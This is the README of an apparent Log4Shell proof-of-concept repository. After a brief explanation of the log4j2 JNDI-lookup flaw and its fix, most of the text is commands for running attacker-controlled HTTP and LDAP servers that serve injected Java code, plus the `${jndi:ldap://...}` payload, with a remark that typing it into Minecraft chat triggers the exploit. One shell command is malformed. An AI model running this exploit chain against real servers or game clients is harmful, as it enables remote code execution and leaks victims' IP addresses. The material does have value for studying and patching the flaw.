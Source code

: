 # log4j2-banter

## Motivation
https://user-images.githubusercontent.com/37479424/145661983-131eb84a-9ac5-4014-9f6b-10b69d8d7cf4.mp4
This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)
However, the logging library for java called log4j2 had [JNDILookup](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.
Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.
The solution is to update **Java** and **log4j2** versions.

## Running
0. Install requirements
```
system requirements => requirements.txt (gradle is not per say required, use any building tool with same output)
npm requirements => npm-requirements.txt
$ cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
$ DATE=17-14-57_13-12-2021 && cd http-server && node index.js 2>&1 >$DATE_http-server.log & && cd ldap-server && node index.js 2>&1 >$DATE_ldap-server.log &
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
$ ./java-single-compile Main.java
# Linux 
$ javac Main.java
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
$ cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
$ java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send `${jndi:ldap://127.0.0.1:3001/}` to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell

## License [GPL3]
See License in LICENSE
